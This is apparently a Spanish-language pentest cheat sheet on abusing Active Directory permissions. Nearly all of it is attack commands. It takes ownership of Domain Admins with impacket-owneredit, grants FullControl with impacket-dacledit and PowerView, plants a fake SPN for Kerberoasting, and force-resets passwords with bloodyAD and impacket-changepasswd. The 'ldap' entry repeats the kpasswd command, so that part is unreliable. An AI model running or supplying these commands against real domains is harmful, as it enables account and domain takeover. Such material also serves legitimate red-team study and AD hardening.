 # Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sakshi' -target-dn 'CN=ankur,CN=Users,DC=ignite,DC=local' 'ignite.local'/'sakshi':'Password@1' -dc-ip 192.168.1.6
# Desde windows

### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'roma' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "roma" -PrincipalIdentity "sameer"

---

# Explotación/abuso
## Kerberoasting
#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'roma' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.

## Cambiar contraseña del user

### BloodyAD
    bloodyAD --host "192.168.1.6" -d "ignite.local" -u "sakshi" -p "Password@1" set password "ankur" "Password@987"

### Impacket
#### Cambiar mediante kpasswd
    impacket-changepasswd -reset -protocol kpasswd contoso.local/j.doe@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
#### Cambiar mediante ldap
    impacket-changepasswd -reset -protocol kpasswd contoso.local/j.doe@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm

